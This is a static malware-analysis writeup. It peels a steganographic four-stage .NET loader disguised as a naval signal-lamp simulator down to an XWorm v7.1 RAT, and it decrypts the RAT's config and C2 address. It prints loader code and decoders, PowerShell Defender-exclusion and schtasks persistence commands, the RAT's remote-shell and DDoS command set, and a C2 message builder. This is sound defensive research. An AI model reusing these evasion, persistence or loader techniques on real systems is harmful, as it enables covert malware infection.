# Peeling a 4-Stage .NET Matryoshka — From a WWII Naval Sim to XWorm v7.1

I got handed a Windows executable that, on the surface, is a tiny Japanese naval signal-lamp simulator called **LightConvoy**. It is not. It's a crypter stub hiding a four-stage loader chain, and at the bottom of the rabbit hole sits an **XWorm v7.1** RAT with its C2 config encrypted in plain sight. This whole writeup is **static** — I never ran the sample. Every stage was peeled by reading the decompiled IL and reproducing each decode in Python until a new PE fell out. Here's the climb down.

## Triage

```
$ file 7970a02a...afff4178.exe
PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows

$ sha256sum 7970a02a...afff4178.exe
7970a02a006f96561ee367c4612b76a52f37c20053fd5e9b34338234afff4178
```

A **.NET** assembly. That's good news — .NET decompiles back to near-source C#, so I don't have to read x86. I opened it in ILSpy/dnSpy and went straight for the entry point and the embedded resources.

The visible app is a WinForms form. But the first thing that caught my eye was that the constructor's `SuspendLayout()` — a method that normally just freezes layout updates — was doing something it has no business doing:


*`SuspendLayout()` doesn't lay anything out — it builds `das` from `Resources.Credit`, a bitmap, pulling exactly 69632 bytes out of it.*

```csharp
private void SuspendLayout()
{
    das = new SeismicChannelAwaitable(Resources.Credit, 69632).GetAwaiter().GetResult();
}
```

So the payload isn't in the strings — it's **hidden inside an image**. `Resources.Credit` is a bitmap, and `das` ends up being a `List<byte>`. This is steganography: the bytes of a .NET assembly are stored in the pixels.

## Stage 0 — The Reflective Loader

### How the payload gets executed

A few lines down, the loader takes `das` and runs it without ever touching disk:


*`LateBinding.LateGet(..., "L"+"oad", das)` loads the assembly in memory, `GetExportedTypes()[1]` picks the class, `Activator.CreateInstance` runs it.*

```csharp
Assembly assembly = (Assembly)LateBinding.LateGet(
    Thread.GetDomain(), null, "L" + "oad",
    new object[1] { Enumerable.ToArray(das) }, null, null);
Type type = assembly.GetExportedTypes()[1];
string[] array = Regex.Split(intConn, "72D71DAD9");
string[] array2 = new string[3] { array[0], array[1], "LightConvoy" };
object[] args = array2;
object obj = Activator.CreateInstance(type, args);
```

This is the classic **load-and-run reflective loader**:

- `"L" + "oad"` is a split string so `strings` / signature scanners don't see `Assembly.Load`.
- `LateGet` is `Microsoft.VisualBasic.CompilerServices.LateBinding` — late-bound reflection, another way to dodge static detection.
- The three constructor args handed to the next stage are two hex-looking strings (split out of `intConn` on the delimiter `72D71DAD9`) plus the literal `"LightConvoy"`.

No `Invoke` is visible because execution starts in the **constructor** of the instantiated type — `Activator.CreateInstance(type, args)` runs it. The loader doesn't need to call a method; the payload's `.ctor` is the method.

### Pulling the payload out of the bitmap

`SeismicChannelAwaitable` is deliberately over-engineered (a fake "seismology metrics" seed computed from embedded float arrays — a decoy). The part that matters is `GetResult()`, which walks the bitmap pixel by pixel:


*Column-major walk: for each x, for each y, enqueue `pixel.R`, then `.G`, then `.B`, until `_traceBudget` (69632) bytes are collected. The seed is never actually used — pure misdirection.*

So the decode is simply: read the first 69632 bytes of the bitmap's pixels, column-major, channel order R,G,B. I reproduced it in Python and the output started with `MZ` — a PE. **Stage 1 is a 69632-byte .NET DLL.**

```
$ python3 extract_das.py Credit.png payload.bin
stage1=69632B head=4d5a90000300000004000000 magic=b'MZ'
```

Decompiling `payload.bin`: a class `Wagnardsoft/Form1`. On we go.

## Stage 1 — Form1, the Second Loader

Stage 1 is the same trick again — a matryoshka. Its entry is a static method `Justy(arg1, arg2, arg3)`, fed by the three args stage 0 passed in:


*`Justy` decodes its two hex args, pulls a second bitmap, XORs it, loads the result, and invokes a method on it.*

```csharp
public static void Justy(string StringTypeInfo, string InputBlockSize, string EscapedIRemotingFormatter)
{
    smethod_0();
    StringTypeInfo = smethod_1(StringTypeInfo);   // CausalitySource: hex -> ascii
    InputBlockSize = smethod_2(InputBlockSize);   // hex -> ascii
    Bitmap bitmap_ = smethod_3(StringTypeInfo, EscapedIRemotingFormatter);
    byte[] data = smethod_4(bitmap_);
    data = Mist(data, InputBlockSize);            // XOR decrypt
    Assembly assembly_ = smethod_5(data);         // Assembly.Load
    smethod_6(assembly_);                         // GetTypes()[7].GetMethods()[17].Invoke
    smethod_7();
}
```

The two hex args decode through `CausalitySource` (a plain hex→ASCII routine):

- `arg1 = "66634662"` → **`fcFb`** — the name of the second embedded bitmap resource.
- `arg2 = "716276"` → **`qbv`** — the XOR key.
- `arg3 = "LightConvoy"` — the resource basename prefix.


*`CausalitySource` turns the hex args into `fcFb`/`qbv`. `Mist` is the unpacker: a rotating-XOR, not AES.*

### Mist — rotating-key XOR, not AES

This is where I had to be careful. `Mist` *looks* like a cipher but it's a rolling XOR:

```csharp
public static byte[] Mist(byte[] data, string key)
{
    byte[] bytes = Encoding.BigEndianUnicode.GetBytes(key);  // "qbv" -> 00 71 00 62 00 76
    int num = data[^1] ^ 0x70;                               // keystream byte from the LAST data byte
    byte[] array = new byte[data.Length];
    int num2 = 0;
    for (int i = 0; i < data.Length; i++)
    {
        array[i] = (byte)(data[i] ^ num ^ bytes[num2]);
        num2 = ((num2 != key.Length - 1) ? (num2 + 1) : 0);  // key index cycles 0..len-1
    }
    return array;
}
```

Two things worth calling out, because they're the difference between "XOR" and "AES":

- **The key lives in the binary.** `qbv` was literally passed as a constructor argument. There's no key exchange, no KDF — a rotating XOR *has* to carry its key with it. That's the structural weakness of this whole obfuscation layer: everything I need to decrypt each stage is sitting in the stage above it. (A real block cipher like AES would still need its key somewhere, but it wouldn't be this casually recoverable.)
- `Encoding.BigEndianUnicode` means the 3-char key `qbv` becomes **6 bytes** (`00 71 00 62 00 76`), and the index cycles `0..2` — so the actual byte sequence applied is `00, 71, 00` repeating. Easy to get subtly wrong.

The stego read (`smethod_4` / `RestoreOriginalBitmap`) is also fiddlier than stage 0: the `fcFb` PNG is cropped (the extra 177×225 border is stripped) and read as **ARGB** with the first pixel holding the length prefix. I reproduced the crop + ARGB read + Mist and out came another `MZ`:

```
$ python3 extract_stage2.py fcFb.png stage2.bin
crop=270x270 len=290305 stage2=290305B head=4d5a90000300000004000000 magic=b'MZ'
```

**Stage 2 is a 290305-byte .NET DLL** — and after loading it, stage 1 reaches for `GetTypes()[7].GetMethods()[17].Invoke(null, null)`, the same load-and-run pattern a third time.


*`smethod_9` is `Assembly.Load` built from the char array `{'L','o','a','d'}` — the string-splitting evasion once more.*

## Stage 2 — GClass2, Now With .NET Reactor

Stage 2 didn't decompile cleanly. Where stages 0–1 were readable, this one came out as garbage names and encrypted strings. I ran de4dot to fingerprint the obfuscator:


*`Detected .NET Reactor`. de4dot renames the symbols but its Reactor string-decrypter crashes on this variant (`fl8PWhSxlt`, token 06000202).*

```
$ de4dotex stage2.bin
de4dotEx v3.4.0.0
Detected .NET Reactor (/home/inkman97/htb/stage2.bin)
Cleaning /home/inkman97/htb/stage2.bin
WARNING: Could not find all arguments to method ...fl8PWhSxlt(System.Int32) (06000202), instr: IL_00A7: xor
Renaming all obfuscated symbols
Saving /home/inkman97/htb/stage2-cleaned.bin
```

So this stage is packed with **.NET Reactor** — string encryption, control-flow flattening, anti-tamper. de4dot's symbol renaming worked (variables became `string_4`, `smethod_13`, …) but its string decrypter **threw** on Reactor's `DeobfuscateXored` for this build, so inlined strings stayed encrypted. Forcing it (`--strtyp delegate --strtok 0x06000202`) just crashed harder.

I didn't need the string decrypter, though. The one thing stage 2 does that I care about is unpack stage 3 — and that logic was in cleartext:


*`byte_0 = smethod_13(smethod_8("Zk7lk5"), "QbWCJeeOpwRXD")` — resource name and key both in the clear.*


*`string_4 = "QbWCJeeOpwRXD"` (the key), `string_5 = "Zk7lk5"` (the resource name).*

`smethod_8` is just a `ResourceManager.GetObject` wrapper that pulls the embedded `Zk7lk5` byte array:


*`ResourceManager.GetObject(string_17)` — the `Zk7lk5` resource is a raw `byte[]`.*


*The encrypted stage-3 payload living in `Zk7lk5` inside the resources.*

### smethod_13 — another homemade cipher

`smethod_13` is a custom byte cipher keyed with `QbWCJeeOpwRXD`:

```python
def smethod_13(data: bytes, key: bytes) -> bytes:
    b = bytearray(data); L = len(b)
    num = 0
    while num <= L:                      # note: <= L, then the last byte is dropped
        n3 = num % L; n4 = (num + 1) % L; n5 = num % len(key)
        b[n3] = ((b[n3] ^ key[n5]) - b[n4] + 256) % 256
        num += 1
    return bytes(b[:L - 1])
```

I parsed the `.resources` stream by hand (magic `0xBEEFCACE`, 7-bit-encoded lengths, typecode `0x20` = `ByteArray`), pulled the blob, ran `smethod_13`, and:

```
$ monodis --mresources stage2-cleaned.bin        # dump the embedded .resources
$ python3 decrypt_zk.py Zk7lk5.resources stage3.bin
entry='Zk7lk5' typecode=0x20 len=37904
decrypted=37888B head=4d5a90000300000004000000 magic=b'MZ' ascii_head=b'MZ\x90\x00...'
```

**Stage 3: a 37888-byte .NET assembly.** And this one is *not* obfuscated.

### A bonus from stage 2: Defender exclusions

While reading stage 2 I also hit `smethod_10`, which shells out to PowerShell to whitelist the malware — a behavioral IOC worth noting even though it belongs to the loader:

```
powershell.exe -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath '<self>'
```

## Stage 3 — XWorm v7.1

Stage 3 decompiled into clean, named classes: `Settings`, `Stub.ClientSocket`, `Stub.AlgorithmAES`, `Stub.Messages`. The class layout, the `<Xwormmm>` separator, the `AlgorithmAES` naming — this is **XWorm v7.1**, an AsyncRAT fork. No more images, no more XOR; now it's a straight RAT with an AES-encrypted config.

### The config and how it's "encrypted"

Every sensitive field in `Settings` is a base64 string:


*`Hosts`, `Port`, `KEY`, `SPL`, `Groub`, `USBNM`, `InstallDir`, `InstallStr` are all AES-encrypted base64. `Mutex` is the one field left in cleartext.*

At startup the client decrypts them in a loop:


*Each field is `AlgorithmAES.Decrypt(Settings.<field>)`. Note `Mutex` is **not** in this list — it's used as-is.*

And here's the fatal design flaw — the decryption key is derived from the one field they left in plaintext:


*Key = `MD5(Mutex)` copied into a 32-byte buffer at offsets 0 and 15; AES-256-ECB.*

```csharp
public static object Decrypt(string input)
{
    RijndaelManaged rijndaelManaged = new RijndaelManaged();
    byte[] array = new byte[32];
    byte[] sourceArray = new MD5CryptoServiceProvider().ComputeHash(Helper.SB(Settings.Mutex));
    Array.Copy(sourceArray, 0, array, 0, 16);
    Array.Copy(sourceArray, 0, array, 15, 16);   // overlapping copy; byte[31] stays 0x00
    rijndaelManaged.Key = array;
    rijndaelManaged.Mode = CipherMode.ECB;
    byte[] array2 = Convert.FromBase64String(input);
    return Helper.BS(rijndaelManaged.CreateDecryptor().TransformFinalBlock(array2, 0, array2.Length));
}
```

`Mutex = "gyEEm0nCxSgKW9Pf"` is right there in cleartext, so I can derive the key (`MD5(mutex)`, expanded to 32 bytes with that overlapping copy) and decrypt the whole config myself. No need to run anything:

```
$ python3 decrypt_settings.py
[AES key] ffc66159316fb2c2b4215a2edf11abffc66159316fb2c2b4215a2edf11ab4900
Hosts        = '185.29.9.105'
Port         = '1012'
KEY          = '<V7PV7PV7PV7PV7P>'
SPL          = '<Xwormmm>'
Groub        = 'XWorm V7.1'
USBNM        = 'USB.exe'
InstallDir   = '%AppData%'
InstallStr   = 'bin.exe'
Mutex        = 'gyEEm0nCxSgKW9Pf'
```

There it is. **C2 = `185[.]29[.]9[.]105:1012`.** Install path `%AppData%\bin.exe`, USB spreader `USB.exe`, campaign group `XWorm V7.1`.

### Persistence, anti-analysis, and the command set

With the config out, I read the rest of stage 3 for behavior.

**Persistence** is a scheduled task that re-runs the implant **every minute** — noisy, but effective:


*`schtasks /create /sc minute /mo 1`; with admin it adds `/RL HIGHEST`.*

```
schtasks.exe /create /f /RL HIGHEST /sc minute /mo 1 /tn "<name>" /tr "<InstallStr>"
```

**Anti-analysis** bails out hard (`Environment.FailFast`) on VMs, debuggers, sandboxes, Windows XP, and specifically **any.run**:


*`DetectManufacturer() || DetectDebugger() || DetectSandboxie() || IsXP() || anyrun()` → `Environment.FailFast(null)`.*

**Defender exclusions** (when UAC/admin) whitelist both the current process and the install dir, by path and by process:


*Four `Add-MpPreference` calls: `-ExclusionPath`/`-ExclusionProcess` for the running binary and for the installed copy.*

And the **command dispatcher** (`Messages.Read`) is the full XWorm surface — remote shell, DDoS, and the rest:


*A `switch` over the first field: `RunShell` (`Interaction.Shell(..., Hide)`), `StartDDos` / `StopDDos` (spins a DDoS thread), and many more.*

Beyond those, the dispatcher handles `pong`, `rec`, `CLOSE`, `uninstall`, `update`, `DW`/`FM`/`LN` (download/file-manager/link), `Urlopen`/`Urlhide`, `PCShutdown`/`PCRestart`/`PCLogoff`, `Xchat`, host editing, and a `plugin` system that loads and runs .NET plugins by reflection (`Run`, `injRun`, `UACFunc`, `ENC`/`DEC`).

## The C2 Protocol

XWorm talks raw TCP. Every message on the wire is:

```
ASCII(len(ciphertext)) + 0x00 + ciphertext
```

where `ciphertext` is AES-256-ECB (same Mutex-derived key) of the fields joined by `<Xwormmm>`. On connect the client sends an `INFO` check-in with the full victim profile, then a `PING!` keepalive every ~10–15 s carrying the foreground window title. Because the key is the Mutex and the Mutex is in the binary, the whole channel is decryptable by an analyst. Here's the client→C2 message builder I wrote to model it:

```python
SPL = "<Xwormmm>"
def build_message(fields):
    pt  = SPL.join(fields).encode("utf-8")
    ct  = AES.new(KEY, AES.MODE_ECB).encrypt(pkcs7(pt))   # KEY = MD5(Mutex) expanded to 32B
    return (str(len(ct)) + "\0").encode("ascii") + ct

# check-in:  ["INFO", hwid, user, os, arch, "XWorm V7.1", date, spread, uac, cam, cpu, gpu, ram, av]
# keepalive: ["PING!", active_window_title, time]
```

## IOCs

| Type | Value |
|------|-------|
| SHA256 | `7970a02a006f96561ee367c4612b76a52f37c20053fd5e9b34338234afff4178` |
| Family | XWorm v7.1 (AsyncRAT fork) |
| C2 | `185[.]29[.]9[.]105:1012` |
| Mutex | `gyEEm0nCxSgKW9Pf` |
| AES key (hex) | `ffc66159316fb2c2b4215a2edf11abffc66159316fb2c2b4215a2edf11ab4900` |
| Campaign group | `XWorm V7.1` |
